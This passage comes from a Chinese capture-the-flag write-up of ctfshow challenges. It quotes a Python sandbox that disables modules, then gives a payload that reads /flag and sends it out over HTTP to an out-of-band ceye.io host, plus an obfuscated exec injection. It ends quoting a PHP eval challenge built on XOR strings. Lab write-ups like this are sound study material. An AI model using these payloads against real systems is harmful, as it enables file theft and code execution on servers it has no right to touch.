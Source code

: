> ```python
> import sys 
> sys.modules['os']=None
> sys.modules['imp']=None
> sys.modules['subprocess']=None
> sys.modules['socket']=None
> sys.modules['timeit']=None
> sys.modules['platform']=None
> sys.modules['sys']=None
> 
> app = Flask(__name__)
> sys.modules['importlib']=None
> del sys
> ```

yu师傅的方法，直接读文件带出来，这么一看好像前面也可以用啊

```
?True=s=open('/flag').read();import urllib;urllib.request.urlopen('http://xxx.ceye.io?flag='%2bs)

code=str(exec(globals()[list(globals().keys())[True-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)-(-True)]].args.get(str(True))))
```



## 450-^异或

终于不是python了！！！

> hint：另类rce,执行phpinfo就可以拿到flag
>
> ```php
> <?php
> 
> /*
> # -*- coding: utf-8 -*-
> # @Author: h1xa
> # @Date:   2021-02-03 22:57:52
> # @Last Modified by:   h1xa
> # @Last Modified time: 2021-02-04 14:28:30
> # @email: h1xa@ctfer.com
> # @link: https://ctfer.com
> 
> */
> 
> highlight_file(__FILE__);
> $ctfshow=$_GET['ctfshow'];
> 
> 
> if(preg_match('/^[a-z]+[\^][a-z]+[\^][a-z]+$/', $ctfshow)){
>     eval("($ctfshow)();");
> }
> 
> ```
